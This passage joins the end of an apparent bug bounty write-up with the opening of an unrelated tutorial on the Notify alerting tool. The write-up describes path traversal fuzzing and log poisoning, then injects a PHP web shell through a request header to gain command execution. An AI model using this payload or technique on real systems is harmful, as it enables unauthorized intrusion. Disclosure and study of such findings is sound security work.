 so i decided to fuzz those 2 directories however luckily while fuzzing i forgot to include the log directory so instead of doing

Model=../log/FUZZ.txt

```
i did Model= ../FUZZ.txt
```

and when i looked at the response i found out that content of test.txt stores the entire http request of X-ORIGINAL_URL endpoint

![](https://miro.medium.com/v2/resize:fit:627/1*-eIMOL_eoNo6hrhyuEoa8w.png)

so i requested the path in test.txt file and added a webshell in the header

```php
T: <?php system($_GET[‘cmd-old’]); ?> then executed the ls command as a proof of concept
```

![](https://miro.medium.com/v2/resize:fit:627/1*iEZu61jdlq3uNUpZrV5axA.png)

> hackerone: [https://hackerone.com/0xold](https://hackerone.com/0xold)
> 
> twitter : [https://twitter.com/0x0ld](https://twitter.com/0x0ld)


---

## How to use Notify

## Get quick alerts on Discord (Automation Guide)

> https://github.com/projectdiscovery/notify

- Go-based package developed by ProjectDiscovery, the same team behind the famous tool `nuclei` as well.
- It helps to send all valid findings to a dedicated discord channel (public or private), slack, telegram, Gmail, Microsoft Teams, etc…
- You can integrate this package with any other tool.

## ⚔️Setup for this article

![](https://miro.medium.com/v2/resize:fit:700/1*MjFMouP_Jglrgpa44LWlbg.png)

#### 🗃️Installation of Notify

```bash
go install -v github.com/projectdiscovery/notify/cmd/notify@latest
```

Alternatively,

![None](https://miro.medium.com/v2/resize:fit:700/1*t3PlDUyiH05lNz9u280K3Q.png)
